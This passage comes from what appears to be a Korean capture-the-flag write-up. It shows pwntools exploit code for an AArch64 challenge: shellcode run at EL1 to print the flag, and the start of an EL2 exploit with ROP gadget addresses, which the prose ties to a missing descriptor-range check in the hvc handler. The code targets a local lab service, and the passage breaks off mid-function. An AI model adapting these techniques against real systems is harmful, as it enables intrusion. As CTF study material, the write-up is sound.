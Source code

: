 ```python
    )


p = remote("localhost", 6666)
# p = process("../share/run.sh")
# p = process("../share/run_debug.sh")
el0_elf = ELF("./el0")

EL1_PRINT_FLAG = 0xFFFFFFFFC0008408
EL1_EXIT = 0xFFFFFFFFC00091A4
el1_arbitrary_code_execute(
    f"""
    ldr x2, ={hex(EL1_PRINT_FLAG)};\n
    blr x2;\n
    
    ldr x2, ={hex(EL1_EXIT)};\n
    blr x2;\n
    """
)

p.recvuntil(b"Flag (EL1): ")
FLAG = p.recvline()[:-1]
print(f"Flag: {FLAG.decode()}")
```

### NS.EL2

EL2 부터는 플래그를 출력해주는 함수가 없으므로 Arbitrary Code Execute 만을 서술한다.  
EL2 의 취약점은 hvc 에서 IPA 의 Page Descriptor 설정하는데 존재한다. descriptor 를 설정할 때 ipa 의 범위는 검증하지만, descriptor 의 범위는 검증하지 않는다. 그리고 ipa 의 하위 바이트를 검증하지 않으므로 RWX 영역을 만들 수 있다.

```python
from pwn import *

# context.log_level = "debug"
context.arch = "aarch64"
context.bits = 64
context.endian = "little"

DUMMY_VALUE = 0xDEAD_BEEF_CAFE_BEBE

EL0_STACK_LOW = 0x7FFF_7FFF_E000
EL0_SFP_IN_RUN = 0x7FFF_7FFF_FFA0

EL0_BUF = 0x7FFE_FFFF_D000
EL0_WSM = 0x7FFE_FFFF_E000

EL0_LDP_X29_X30_SP_RET = 0x0040_00FC
EL0_LDR_X19_LDP_X29_X30_SP_RET = 0x0040_0294
EL0_RET = 0x0040_0100


def make_shellcode(assembly: str) -> bytes:
    shellcode = asm(assembly)
    assert b"\n" not in shellcode
    return shellcode


def load_key(idx: int):
    p.sendlineafter(b"cmd> ", b"0")
    p.sendlineafter(b"index: ", str(idx).encode())


def save_key(idx: int, key: bytes):
```